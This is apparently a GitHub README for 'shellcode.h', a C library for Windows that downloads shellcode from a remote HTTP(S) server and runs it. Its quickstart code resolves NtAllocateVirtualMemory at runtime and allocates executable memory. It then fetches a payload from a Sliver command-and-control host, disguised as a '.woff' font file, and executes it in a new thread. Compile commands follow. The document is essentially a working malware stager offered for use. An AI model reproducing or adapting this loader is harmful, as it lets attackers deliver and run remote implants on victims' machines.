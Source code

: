 # shellcode.h
Simple library (std indepent) to "download" a shellcode from a remote/local HTTP(s) server. Could be used with: Mingw and Visual Studio.

# Quickstart
```c
#include "shellcode.h"

int main(void)
{
    // Allocate space for shellcode
    PVOID ShellcodeAddress = NULL;
    SIZE_T ShellcodeSize = 14001;

    ((NtAllocateVirtualMemory)ResolveFunction(L"ntdll.dll", "NtAllocateVirtualMemory"))
    (
        GetCurrentProcess(),
        &ShellcodeAddress,
        0,
        &ShellcodeSize,
        (MEM_COMMIT | MEM_RESERVE),
        PAGE_EXECUTE_READWRITE
    );

    // Download shellcode
    DownloadShellcode("sliver.local", 443, "/hi.woff", ShellcodeAddress, ShellcodeSize);
    
    // Execute
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)ShellcodeAddress, NULL, 0, 0);
    
    if (hThread == NULL)
    {
        ExitThread(0);
    }

    // WaitForSingleObject 
    while (1) {
        Sleep(1000);
    } 
}
```

# Compiling
```
PS > gcc main.c -o main -lwininet
PS > .\main.exe
```
